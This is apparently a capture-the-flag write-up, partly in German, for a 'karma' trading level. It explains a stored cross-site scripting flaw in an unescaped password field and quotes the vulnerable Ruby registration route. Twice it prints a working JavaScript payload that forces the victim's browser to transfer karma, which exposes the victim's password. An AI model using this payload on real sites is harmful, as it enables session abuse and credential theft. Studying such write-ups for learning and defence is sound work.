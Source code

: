 LEVEL 04
========

params[:password] not escaped and checked
XSS vulnerability, user karma_fountain logs in every minute... use to
send yourself karma to see his password

    <script type='text/javascript'>$.ajax({ url: document.location +
    'transfer', type: 'POST', data: { to: 'a', amount: '100' }});</script>.

---

Interessant, dass sich der User karma_fountain jede Minute einloggt, oder? Außerdem ist es wohl ein lustiges Verhalten, dass das eigene Passwort dem Karma-Empfänger angezeigt wird...

    post '/register' do
          username = params[:username]
          password = params[:password]
          unless username && password
            die("Please specify both a username and a password.", :register)
          end

          unless username =~ /^\w+$/
            die("Invalid username. Usernames must match /^\w+$/", :register)
          end

          unless DB.conn[:users].where(:username => username).count == 0
            die("This username is already registered. Try another one.",
                :register)
          end

          DB.conn[:users].insert(
            :username => username,
            :password => password,
            :karma => STARTING_KARMA,
            :last_active => Time.now.utc
            )
          session[:user] = username
          redirect '/'
        end

Die interesse Stelle oben lässt erkennen, dass hier der Username durch eine Regular Expression validiert wird, dass Passwort jedoch nicht! Oh. Und das Passwort wird ja jedem Empfänger angezeigt?! Spricht für eine wunderbare Cross Site Scripting Vulnerability. 

      <script type='text/javascript'>$.ajax({ url: document.location +
    'transfer', type: 'POST', data: { to: 'a', amount: '100' }});</script>
    
Packen wir also das kurze, oben stehende Script bei der Registrierung als Passwort in unseren Account und überweisen der karma_fountain danach etwas Karma, so wird beim nächsten Aufruf durch die karma_fountain eben jenes Script ausgeführt. Das Teil sendet also dem User a Karma - und natürlich das Passwort! 